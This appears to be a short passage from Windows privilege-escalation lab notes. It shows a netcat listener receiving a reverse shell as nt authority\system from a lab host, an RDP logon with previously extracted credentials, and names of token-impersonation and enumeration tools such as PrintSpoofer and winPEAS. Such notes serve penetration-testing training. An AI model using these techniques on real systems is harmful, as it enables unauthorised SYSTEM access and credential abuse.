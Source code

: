 - Start a listener, and then simulate an admin logon using RDP and the credentials you previously extracted:

```powershell
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.151.253 49968
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

#######################################################

❯ rdesktop -u admin 10.10.151.253
```


## **Token Impersonation**

- This could be done using `GodPotato` or `Printspoofer`
- Choose your poison but `Printspoofer` is preferred



## **Privilege Escalation Scripts**


- Several tools have been written which help find potential privilege escalations on Windows -:
	- `winPEASany.exe`
	- `Seatbelt.exe`
	- `PowerUp.ps1`
	- `SharpUp.exe`



